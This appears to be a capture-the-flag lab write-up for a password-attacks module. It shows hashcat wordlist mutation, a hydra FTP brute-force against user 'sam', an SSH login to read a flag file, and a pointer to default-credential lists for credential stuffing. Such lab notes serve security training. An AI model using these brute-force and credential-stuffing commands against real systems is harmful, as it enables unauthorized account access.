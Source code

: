 

Find the user for the **SMB** service and crack their password. Then, when you log in, you will find the flag in a file there. Submit the flag you found as the answer.



### Password Mutations

#### Questions

**Create a mutated wordlist using the files in the ZIP file under "Resources" in the top right corner of this section. Use this wordlist to brute force the password for the user "sam". Once successful, log in with SSH and submit the contents of the flag.txt file as your answer.**

Create mutated password-list:

`hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list`

Remove PWs shorter than 10 chars

`sed -ri '/^.{,9}$/d' mut_password.list`

Use only first 7000

`head -7000 mut_password.list`

Bruteforce FTP

`hydra -l sam -P ./mut_password.list ftp://<IP> -t 64`

<figure><img src=".gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

**Connect to SSH:**

`ssh sam@10.129.131.233`

`cd smb`

`cat flag.txt`

### PW Reuse / Default PWs

* Credential stuffing - using Hydra
* [https://github.com/ihebski/DefaultCreds-cheat-sheet](https://github.com/ihebski/DefaultCreds-cheat-sheet)
*
